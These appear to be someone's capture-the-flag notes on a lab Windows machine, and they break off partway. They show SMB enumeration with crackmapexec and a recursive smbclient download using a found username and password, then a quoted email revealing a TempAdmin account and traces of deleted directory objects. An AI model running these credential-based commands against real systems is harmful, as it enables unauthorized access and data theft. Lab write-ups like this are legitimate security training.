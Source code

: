 
```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```

![[Pasted image 20240917012946.png]]

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
prompt off
recurse on
ls
mget *
```

![[Pasted image 20240917014153.png]]

```
<p>For anyone that missed yesterday�s meeting (I�m looking at
you Ben). Main points are below:</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p>-- New production network will be going live on
Wednesday so keep an eye out for any issues. </p>

<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>

<p>-- The winner of the �Best GPO� competition will be
announced on Friday so get your submissions in soon.</p>

<p class=MsoNormal><o:p>&nbsp;</o:p></p>

<p class=MsoNormal>Steve</p>

```

So the username who's password is same as admin is TempAdmin but but here is another user mentioned (i.e. Steve) will check in the userlist if we have that user or not.

```
s.smith
```

Let's dig the password or this user and check the remaining smb.

```
CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d
```

```
TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059
```

